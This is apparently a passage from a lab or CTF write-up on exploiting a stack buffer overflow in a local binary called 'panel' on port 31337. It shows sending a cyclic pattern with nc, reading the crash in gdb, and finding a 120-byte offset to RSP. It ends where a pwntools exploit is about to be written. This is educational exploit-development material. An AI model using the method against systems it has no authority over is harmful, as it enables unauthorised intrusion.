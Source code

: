 ![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553290611038_image.png)


Re-attempt sending the binary on port 31337 except with our created pattern.
-close gdb with `q`
-kill handle process x2 && run gdb 

    pkill -9 panel; pkill -9 panel; gdb ./panel

run binary with `r`

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553289810536_image.png)


connect to port 31337 with nc:

    nc localhost 31337

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553289854263_image.png)


send created pattern string:

    AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAo
    AA

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553290644232_image.png)



gdb - binary crashes with our pattern filling the registers

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553290670811_image.png)


Finding the location of the RSP with pattern_offset
location:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553290720903_image.png)


pattern_offset:

    pattern_offset jAA9AAOAAkAAPAAlAAQAAmAARAAoAA

*(note: don’t add the \n)*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553290945344_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_BED62F41990C89A106CB796AFD39934222B229D2DA9DDD40D65C587D500DE0DE_1553290961777_image.png)


at this point we know that 120 bytes we overwrite the RSP (stack pointer)

Create Skeleton Buffer Overflow Exploit:
requirements pwntools
to install:

    pip install pwn #or pip3 for python3
